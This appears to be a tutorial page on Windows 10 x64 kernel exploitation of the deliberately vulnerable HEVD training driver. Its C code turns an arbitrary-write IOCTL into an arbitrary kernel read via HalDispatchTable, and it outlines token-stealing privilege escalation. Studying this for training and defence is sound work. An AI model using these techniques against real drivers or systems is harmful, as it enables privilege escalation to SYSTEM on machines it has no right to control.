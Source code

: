 ```yaml
---
title: Windows 10 x64 Kernel Exploitation - Arbitrary Write (Write-What-Where) using HEVD
---
```


## What's a Write-What-Where (WWW)
```c
*Where = *What;
```

## Turning a Arbitrary Write into Arbitrary Read
The `What` is the address we want to read, and the `Where` is the address of a user mode variable.

```c
void WriteQWORD(HANDLE hHEVD, PVOID what, PVOID where) {

	WRITE_WHAT_WHERE www = {
		.What  = what,
		.Where = where,
	};

	DWORD dwBytesReturned = 0;
	DeviceIoControl(
		hHEVD,
		HEVD_IOCTL_ARBITRARY_WRITE,
		&www,
		sizeof(WRITE_WHAT_WHERE),
		NULL,
		0x00,
		&dwBytesReturned,
		NULL);
}

u64 HalDispatchTable08  = kernelBase + 0xc00a68; // ? nt!HalDispatchTable+0x8 - nt

// Write the nt!HalDispatchTable+0x8 (What) into halDispatchTable08Val (Where)
u64 halDispatchTable08Val = 0;
WriteQWORD(hHEVD, HalDispatchTable08, &halDispatchTable08Val);
```

Note: `HalDispatchTable08` (the where) is already an address, it will be dereferenced to get the data it points to. But we **MUST** pass the address of (using `&`) `halDispatchTable08Val`, not the value of the variable (which in this example is 0).

## Methods for Exploitation (without RCE)
You can basically write the token stealing shellcode from the previous blog using the arbitrary read/write primitive. There is a slight distinction in that, in the shellcode we have the pointer to our own process (from the `gs` register), and search for the PID 4 (SYSTEM) process. In this method it’s the opposite, we have the PID 4 (SYSTEM) process pointer (from `PsInitialSystemProcess`), and have to search for our own process.
